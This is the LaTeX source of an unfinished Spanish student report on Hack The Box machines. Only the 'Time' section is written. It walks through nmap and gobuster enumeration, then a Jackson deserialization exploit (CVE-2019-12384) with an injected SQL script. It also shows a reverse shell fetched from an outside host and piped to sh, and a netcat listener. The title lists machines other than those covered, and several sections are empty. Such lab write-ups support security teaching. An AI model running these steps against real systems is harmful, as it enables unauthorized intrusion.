\documentclass{article}
\usepackage[a4paper]{geometry}
\usepackage[spanish]{babel}
\usepackage{parskip}
\usepackage{setspace}
\usepackage{graphicx}
\usepackage{fancyhdr}
\geometry{total={6in, 9in}}
\usepackage{makeidx}
\usepackage{lscape}
\usepackage{pdflscape}
\usepackage{fancyhdr}
\usepackage{pdfpages}
\usepackage{rotating}
\usepackage{etoolbox}
\usepackage{listings}
\usepackage{float}
\usepackage{caption}
\usepackage{subcaption}

\lstdefinestyle{customc}{
  language=C++,
  showstringspaces=false,
  basicstyle=\footnotesize\ttfamily,
  keywordstyle=\bfseries\color{green!40!black},
  commentstyle=\itshape\color{purple!40!black},
  identifierstyle=\color{blue},
  stringstyle=\color{orange},
}

\lstset{escapechar=@,style=customc}

\newcommand{\tabitem}{%
  	\usebeamertemplate{itemize item}\hspace*{\labelsep}}
\usepackage[hidelinks]{hyperref}

%HEADRULE

\pagestyle{fancy}
\setlength{\headheight}{30.2pt}
\setlength{\headsep}{30pt}
% INICIO DE PÁGINAS
\begin{document}
\begin{titlepage}
	
	
	\begin{center}
		{\LARGE \textbf{UNIVERSIDAD NACIONAL DE INGENIERÍA}}\\
		\vspace{5 mm}
		{\large \textbf{Facultad de Ingeniería Industrial y de Sistemas}}\\
		\vspace{15.5 mm}
		\begin{figure}[h]
			\centering 
			
\includegraphics[width=0.45\textwidth]{images/CiberSecFIIS.png}
		\end{figure}
		\vspace{4 mm}	
		{\Large \textbf{Informes de exploración de vulnerabilidades en HTB} }\\
		\vspace{5 mm}
		
		\onehalfspacing  % Espaciamiento 1.5
		{\Large \textbf{``{\@De las máquinas: OpenAdmin, Fuse \\Magic, Remote }''} }\\
		
		\singlespacing  % Fin del espaciamiento 1.5
		
		\vspace{4 mm}	

		\vspace{20 mm}
		{\large \textbf{ELABORADO POR:} }\\
		\vspace{10 mm}
		\begin{center}
			\begin{minipage}{0.7\textwidth}
			  \begin{itemize}
				\item \Large Alfonso Suárez, Luis
				\item \Large Mottoccanche Tantaruna, Joseph
				\item \Large Chi Jon, Lau
			  \end{itemize}
			\end{minipage}
		  \end{center}

		\vspace{5 mm}	
	\end{center}

\end{titlepage}


\clearpage
\tableofcontents
\clearpage
% ----------------------------Time-----------------------------------
\section{Time}
\subsection{Enumeración}
Lo primero a realizar en cualquier máquina es un escaneo rápido con nmap, para esto usamos el comando con los parámetros:
\begin{itemize}
	\item -p-
	\item --min-rate=5000
	\item -v
	\item -oN puertos
\end{itemize}
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/nmap.png}
	\caption{escaneo con nmap}
\end{figure}
Entonces encontramos estos dos servicios, algo que podríamos hacer para verificar la versión de los servicios es incluir el -sV.
La razón por la cual no usamos esto desde el inicio es porque al analizar todos los puertos en algunos casos hace que se demore considerablemente más, en especial cuando descubre muchos puertos.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/nmap_version.png}
	\caption{escaneo con version nmap}
\end{figure}
Un parámetro adicional que podríamos usar para este análisis es el :
\begin{itemize}
	\item -sV 
	\item -Pn 
	\item --script=Vuln
\end{itemize}
\clearpage
Analizamos ahora los directorios para ver si encontramos algo con gobuster, esto podría ayudarnos a encontrar alguna carpeta oculta antes de revisar el contenido, para esto usamos un parámetro importante que es el -t 200 que ayuda a que use más hilos. 
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/gobuster.png}
	\caption{fuzzeo con gobuster}
\end{figure}
Mientras tanto analizamos también la página web que tenemos en el puerto 80, nos encontramos con un validador de json como los que solemos encontrar en internet.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/index.png}
	\caption{página de json}
\end{figure}
\clearpage
Entonces tenemos este validador, probamos metiendo un poco de código json, obtenemos este código de \href{https://json.org/example.html}{https://json.org/example.html}.
Seleccionamos dos códigos para hacer la prueba porque ambos botaban errores diferentes:
\begin{lstlisting}[language={[ANSI]C}]  
	{"title": "Sample Konfabulator Widget",
    	"name": "main_window",
    	"width": 500,
    	"height": 500}
\end{lstlisting}
Con este código te bota el siguiente error:
\begin{lstlisting}[language={[ANSI]C}] 
	Validation failed:    "title": "Sample Konfabulator Widget",
\end{lstlisting}

Luego probamos con este código de una línea a ver si había diferencia
\begin{lstlisting}[language={[ANSI]C}]  
	{"value": "New", "onclick": "CreateNewDoc()"}
\end{lstlisting}

Con este código te bota el siguiente error:
\begin{lstlisting}[language={[ANSI]C}]  
	Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.
	exc.MismatchedInputException: Unexpected token (START_OBJECT), 
	expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type 
	information for class java.lang.Object
\end{lstlisting}

Entonces el segundo error nos da algo más significativo, buscando en google encontramos algunas vulnerabilidades.

Entre estas la que nos sirve es la que encontramos en este github \href{https://github.com/jas502n/CVE-2019-12384}{https://github.com/jas502n/CVE-2019-12384}

\subsection{Explotación}
Comenzando con la explotación, esta máquina utiliza un error de deserialización, el cual se explota con un gadget, en este caso lo que se tiene que hacer son los siguientes pasos: 
\begin{enumerate}
	\item Crear un inject.sql y modificarlo para que ejecute una reverse shell que queramos.
	\item Crear la reverse shell que puede ser un archivo o escrita directamente.
	\item Levantar estos archivos con un servidor para que sea accesible desde la máquina víctima.
	\item Deja escuchando el puerto de la reverse shell.
	\item escribir el exploit en la página para que se ejecute y nos de acceso.
\end{enumerate} 

Entonces empezamos con los pasos, primero para crear el inject.sql usamos el github que nos da el archivo, solo quedaría modificarlo con la ruta en la que tendríamos la reverse shell 

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/injection.png}
	\caption{script de injection sql modificado}
\end{figure}

Luego para crear la reverse shell, podemos hacerlo de la forma habitual con monkey pentester, en este caso sabemos que lo va a ejecutar bash porque estamos en un server linux y esta función sql está llamando una shell de sistema, así que podríamos usar la reverse de bash, sin embargo para este caso usaremos un script que te genera varias reverse shell y te usa la más conveniente.

El proceso para generarla es simple, solo te diriges a "https://resh.now.sh/\textbf{yourip}:1337 | sh", es importante este 1337 que sería el puerto que tendríamos que tener en escucha con el nc.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/reverse_shell.png}
	\caption{reverse shell}
\end{figure}

Luego tenemos que levantar un servidor en python para que pueda escuchar las peticiones de los archivos que necesitamos, en este la revershe shell y el injection.sql, el comando para esto es "python3 -m http.server \textbf{puerto a usar}", para este caso usaremos el 80 que se habilita con permisos de administrador, pero no es necesario puede ser cualquiera.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/server.png}
	\caption{servidor en python3}
\end{figure}

Levantamos en escucha un netcat en el puero 1337, y ejecutamos en la página el código malicioso que obtuvimos del github y hemos modificado.

Hay que tener un poco de cuidado porque en el github escapan todas las comillas simples "", para esto simplemente quitas las barras invertidas.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/comando.png}
	\caption{Inyección de comando}
\end{figure}
\begin{figure}[H]
	\center
	
\includegraphics[width=0.7\textwidth]{images/time/ejecucion.png}
	\caption{Ejecución en el servidor}
\end{figure}
Con esto regresando al netcat podemos ver que ya tenemos acceso a la máquina, sin embargo estamos con un usuario poco privilegiado.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/acceso.png}
	\caption{Obteniendo acceso}
\end{figure}


\subsection{Escalamiento de privilegios}

Ya dentro del usuario lo que tenemos que hacer es ver cuantos privilegios tenemos. Esto podemos hacerlo con un 

\subsection{Post Explotación}

\subsection{Hardening}

% ----------------------------Jarvis-----------------------------------
\section{Jarvis}
\subsection{Enumeración}

\subsection{Explotación}

\subsection{Escalamiento de privilegios}


\subsection{Post Explotación}

\subsection{Hardening}


\end{document}
